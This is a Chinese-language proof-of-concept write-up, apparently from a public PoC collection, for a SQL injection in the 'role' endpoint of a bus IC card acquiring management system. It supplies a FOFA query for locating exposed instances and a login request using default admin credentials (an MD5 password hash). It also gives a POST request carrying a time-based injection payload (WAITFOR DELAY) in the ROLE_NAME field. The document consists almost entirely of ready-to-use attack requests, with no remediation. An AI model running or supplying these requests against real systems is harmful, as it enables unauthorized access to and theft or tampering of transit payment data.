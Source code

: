 # 公交IC卡收单管理系统role存在SQL注入漏洞

公交IC卡收单管理系统role存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
app="公交IC卡收单管理系统"
```

## poc

获取cookie

```javascript
POST /login HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest

username=admin&password=e10adc3949ba59abbe56e057f20f883e
```

```javascript
POST /role HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=BE20D06711487C9D6D5325C1129F244C
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest

_search=false&nd=1727245571646&rowCountPerPage=10&pageNo=1&sidx=ROLE_NAME&sord=asc&method=select&ROLE_NAME=1');WAITFOR DELAY '0:0:5'--
```

